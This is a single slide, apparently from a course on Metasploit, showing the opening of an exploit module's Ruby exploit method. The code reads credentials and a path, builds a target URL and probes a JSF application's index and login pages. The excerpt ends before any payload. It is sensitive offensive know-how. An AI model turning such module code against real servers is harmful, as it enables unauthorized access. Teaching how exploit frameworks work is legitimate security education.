

# Metasploit Module General Structure
30
Body of the Exploit Module

 def exploit
         user        = datastore['USERNAME']
         pass        = datastore['PASSWORD']
         path        = datastore['PATH']
         my_target_host = "http://#{rhost.to_s}:#{rport.to_s}/#{path.to_s}"
         success     = false
         session     = ''
         edition     = ''
         version     = ''

         #Invoke index to gather some info
         res = send_request('/common/index.jsf', 'GET')

         #If we get a bad connection, we'd rather not try
         if res.nil?
                 print_error("Unable to get a response from the server")
                 return
         end

         if res.code == 302
                 res = send_request('/login.jsf', 'GET')
         end